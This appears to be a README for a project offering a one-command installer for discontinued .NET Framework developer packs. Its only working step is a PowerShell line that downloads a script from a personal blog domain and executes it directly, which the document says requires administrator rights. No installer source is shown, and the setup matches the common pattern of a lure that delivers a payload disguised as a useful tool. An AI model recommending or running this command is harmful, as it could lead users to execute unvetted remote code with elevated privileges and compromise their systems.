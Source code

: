 # NetframeworkInstaller
One-Click Installer for Unmaintained .NET Framework Developer Packs

Effortlessly install .NET Framework 4.5, 4.6 and other discontinued developer toolkits with this automated script. Designed specifically for developers maintaining legacy systems where official Microsoft installers are no longer available or maintained.

​Key Features:​​

🛠️ ​One-Command Setup​ - Install obsolete .NET Framework development packages with a single terminal command
⏱️ ​Time-Saving Automation​ - Automated download and configuration of unmaintained SDKs
🌈 ​Visual Status Indicators​ - Clear color-coded interface shows installed frameworks at a glance
🔄 ​Version Management​ - Install, reinstall or remove legacy .NET Framework developer kits
📦 ​Offline-Compatible​ - Once installed, references work without internet access
​Supports discontinued versions:​​
```
.NET 4.0
.NET 4.5
.NET 4.5.1
.NET 4.5.2
.NET 4.6
.NET 4.6.1
.NET 4.7
.NET 4.7.1
.NET 4.7.2
.NET 4.8
.NET 4.8.1
```

Perfect solution for:

Legacy application maintenance
Continuous integration with old SDKs
Regression testing environments
Developer machines supporting multiple .NET versions

# Automated install command:
```powershell
irm https://blog.renzicu.com/yywl | iex
```

Note: Administrative privileges required for installation to program files directory.

​Why this exists:​​ Microsoft has discontinued standalone installers for these legacy .NET Framework versions, creating challenges for developers maintaining older systems. This solution provides reliable, automated access to these deprecated developer tools.
